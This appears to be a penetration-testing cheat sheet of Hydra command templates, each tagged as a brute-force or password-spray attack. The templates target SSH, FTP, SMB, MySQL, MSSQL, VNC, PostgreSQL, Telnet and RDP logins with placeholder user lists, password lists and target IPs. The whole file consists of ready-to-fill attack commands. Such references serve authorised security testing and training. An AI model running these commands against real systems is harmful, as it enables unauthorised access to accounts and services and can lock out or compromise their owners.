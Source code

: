 # Hydra

% bruteforce, access

## Hydra - ssh - userlist and password list - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -L <userlist> -P <passlist> <ip> ssh 
```

## Hydra - ssh - user and password  - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -l <user|root> -p <password|root> <ip> ssh 
```

## Hydra - ssh - user=password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e s <ip> ssh 
```

## Hydra - ssh - null password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -l <user|root> -e n <ip> ssh 
```

## Hydra - ssh - password=reverseuser - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e r <ip> ssh 
```

## Hydra - ssh - file "user:pass" format - specify port
#plateform/linux #target/remote #protocol/ssh #port/custom #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -t 4 -s <port> -C <file_user_pass> <ip> ssh 
```

## Hydra - ftp - 21 
#protocol/ftp #port/21 #plateform/linux #target/remote  #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> ftp 
```

## Hydra - smb - 445
#protocol/smb #port/445 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> smb
```

## Hydra - mysql - 3306
#protocol/mysql #port/3306 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> mysql 
```
## Hydra - mssql - 1433
#protocol/mssql #port/1433 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 
```
hydra -l sa -P <passlist> <ip> -s <port|1433> mssql
```

## Hydra - vnc - 5900
#protocol/vnc #port/5900 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> vnc 
```

## Hydra - postgres - 5432
#protocol/postgres #port/5432 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> postgres
```

## Hydra - telnet - 23
#protocol/telnet #port/23 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> telnet 
```

## bruteforce RDP with userlist and password list
#plateform/linux #target/remote #protocol/rdp #port/3389 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -L <userlist> -P <passlist> rdp://<ip>
```

## bruteforce RDP with user and password list
#plateform/linux #target/remote #protocol/rdp #port/3389 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -l <user> -P <passlist> rdp://<ip>
```

## RDP password spray
#plateform/linux #target/remote #protocol/rdp #port/3389 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -L <userlist> -p <password> rdp://<ip>
```